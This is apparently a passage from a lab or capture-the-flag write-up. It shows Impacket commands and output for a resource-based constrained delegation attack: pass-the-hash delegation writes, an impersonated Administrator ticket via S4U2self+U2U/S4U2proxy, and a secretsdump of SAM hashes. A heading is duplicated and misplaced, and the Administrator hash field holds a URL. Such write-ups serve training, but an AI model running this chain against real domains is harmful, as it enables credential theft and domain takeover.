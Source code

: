 #### Obtain the delegated service ticket through S4U2self+U2U, followed by S4U2proxy (the steps could be conducted individually with the -self and -additional-ticket flags)
```sh
➜  Phantom python3 /opt/impacket/examples/rbcd.py -delegate-from 'crose' -delegate-to 'DC$' -dc-ip 10.10.96.47 -action 'write' 'phantom.vl'/'crose' -hashes :909966db043b51920ee3a5156e154f8b
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] crose can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     crose        (S-1-5-21-4029599044-1972224926-2225194048-1126)
```

#### Obtain the delegated service ticket through S4U2self+U2U, followed by S4U2proxy (the steps could be conducted individually with the -self and -additional-ticket flags)
```sh
➜  Phantom python3 /opt/impacket/examples/getST.py -u2u -impersonate Administrator -spn 'cifs/dc.phantom.vl' -k  -no-pass phantom.vl/'crose'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.phantom.vl@PHANTOM.VL.ccache
➜  Phantom
```
and dump everything
```sh
➜  Phantom python3 /opt/impacket/examples/secretsdump.py -k dc.phantom.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa08cda6a38d423ba98b6f79cf6c7880f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:https://www.youtube.com/watch?v=86oy2_Rzynw:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash
```
